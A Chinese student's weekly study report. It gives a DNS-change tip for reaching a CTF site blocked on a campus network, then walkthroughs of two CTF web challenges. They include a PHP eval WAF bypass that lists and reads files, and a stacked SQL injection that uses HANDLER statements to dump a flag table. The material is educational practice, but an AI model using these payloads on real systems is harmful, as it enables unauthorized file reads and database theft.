# 朱海龙学习报告02
前言：本周主要还是刷web题，buuweb的第一面快做完了，有隔三差五看小迪的课，浅尝python写脚本，下面分享的是平时上网小技巧和做题时学会的新方法

## 正常网站被校园网墙了怎么办

比如说xctf用校园网是进不去的，之前有段时间好像有不少东西用校园网都打不开，具体原因未知啊，以前我是开代理的，后来从show群主那儿学会一个新方法

首先右下角点开网络，打开网络和Internet设置

![image-20220327155543355](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327155543355.png)

找到高级网络设置，更改适配器选项

![image-20220327155659866](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327155659866.png)



找到所使用的网络，右键属性

![image-20220327155834500](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327155834500.png)

找到TCP/IPv4,点属性

![image-20220327155936556](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327155936556.png)

把DNS改成8.8.8.8（Google提供的免费DNS服务器的IP地址）

![image-20220327160055304](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327160055304.png)

确定后，win+R打开cmd，输入ipconfig /flushdns刷新本地DNS缓存

![image-20220327160535639](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327160535639.png)

这时候就可以正常打开xctf啦

![image-20220327160744528](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220327160744528.png)

小迪的前几节课有讲过DNS，还有本地hosts文件啥啥，这里具体原理就不多赘述了

## [RoarCTF 2019]Easy Calc

先右键检查前端源码

搜集到个waf，和calc.php文件

打开calc.php文件，发现源码

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

过滤了好多东西呀，但以我的绕过水平也只能看懂过滤/是防止我们对根目录下手

但这个挺简单的可以直接用ASCII码绕过

还有个waf呀，并没有它的一些说明，我们在尝试中看看怎么绕过吧

?num=phpinfo()发现页面错误直接空白，难道过滤了phpinfo?

因为本身写出来是计算器功能，数字是肯定不会过滤的

我们继续尝试输入?num=a

?num=b  我们发现存在字母会显示forbidden，那么大概率waf就是过滤了字母

过滤字母，那函数怎么用啊???

看了WP发现了这个很妙的地方

传参参数设置为num，空格也是num

因为php在解析时会跳过空格，但是waf不能忽略空格，这样就可以绕过waf了

?%20num=phpinfo();果然是成功绕过了

![1](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/1.png)

这里那么多禁用函数，哈哈水平低，我也用不到

下面就很容易了，过滤点只有一个/,用ASCII码绕过

?%20num=var_dump(scandir(chr(47)))

![02](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/02.png)

找到了flag的名字为f1agg

?%20num=var_dump(file_get_contents(chr(47).f1agg))得到flag

![03](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/03.png)

## [GYCTF2020]Blacklist

点开一看有个查询表，肯定就是sql注入

先用万能密码试一下，没有报错，有回显

1'order by 3#报错了说明字段数是2

![04](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/04.png)

下面用联合查询1' union select 1,database()#

难道真就这么顺利了？

![05](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/05.png)

好家伙，真就过滤这么狠

但是这玩意竟然没有过滤；

这我可开心了，直接上堆叠注入

1';show tables;

![06](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/06.png)

1';show columns from FlagHere;

![07](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/07.png)

想起来最后查询数据还得select，外加过滤这么多玩意。。。

还是得学习新的骚操作

1';handler 表名 open;handler 表名 read first;handler 表名 close;#

HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭

这里因为我们是做题啊，第三个表关闭的语句是没必要的，了解一下即可

1';handler FlagHere open;handler FlagHere read first;  得到flag

![08](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/08.png)







